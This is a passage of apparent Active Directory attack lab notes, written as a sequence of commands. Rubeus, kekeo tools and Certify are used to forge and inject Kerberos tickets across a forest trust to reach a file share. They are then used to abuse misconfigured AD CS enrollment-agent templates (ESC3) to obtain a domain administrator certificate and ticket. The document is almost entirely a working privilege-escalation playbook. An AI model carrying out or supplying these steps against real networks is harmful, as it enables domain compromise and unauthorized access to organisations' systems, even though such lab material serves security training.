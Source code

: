 `.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbiCIFS/eurocorp-dc.eurocorp.local`
## Use the TGS to access the targeted service.
`.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi`
`ls \\eurocorp-dc.eurocorp.local\forestshare\`
## Using Rubeus (using the same TGT which we forged earlier):
`Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi/service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt`
`ls \\eurocorp-dc.eurocorp.local\forestshare\`


# AD CS Certificates
## Enumerate (and for other attacks) AD CS in the target forest:
`Certify.exe cas`
## Enumerate the templates.:
`Certify.exe find`
## Enumerate vulnerable templates(This only checks if domain users have enrolemnt rights on any template) The attack surface is huge so dont trust this:  
`Certify.exe find /vulnerable`

## The template "SmartCardEnrollment-Agent" allows Domain users to enroll and has "Certificate Request Agent" EKU.
`Certify.exe find /vulnerable`
## The template "SmartCardEnrollment-Users" has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication. Search for domain authentication EKU:
`Certify.exe find /json /outfile:C:\AD\Tools\file.json ((Get-Content C:\AD\Tools\file.json | ConvertFrom-Json).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl *`

## Escalation to DA, We can now request a certificate for Certificate Request Agent from "SmartCardEnrollment-Agent" template.
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Agent`
## Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of DA using the "SmartCardEnrollment-Users" template.
`Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123`
## Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it:
`Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt`
